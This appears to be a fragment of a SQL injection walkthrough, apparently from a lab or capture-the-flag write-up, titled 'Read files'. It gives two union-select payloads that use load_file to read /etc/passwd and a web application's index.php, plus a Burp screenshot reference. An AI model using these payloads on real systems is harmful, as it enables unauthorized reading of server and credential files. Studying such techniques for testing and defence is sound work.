 Read files

```bash
' union all select load_file('/etc/passwd')-- -
```

![SQLi - Burp](images/sqli_player_burp_read_file.png)

```bash
' union all select load_file('/var/www/html/index.php')-- -
```
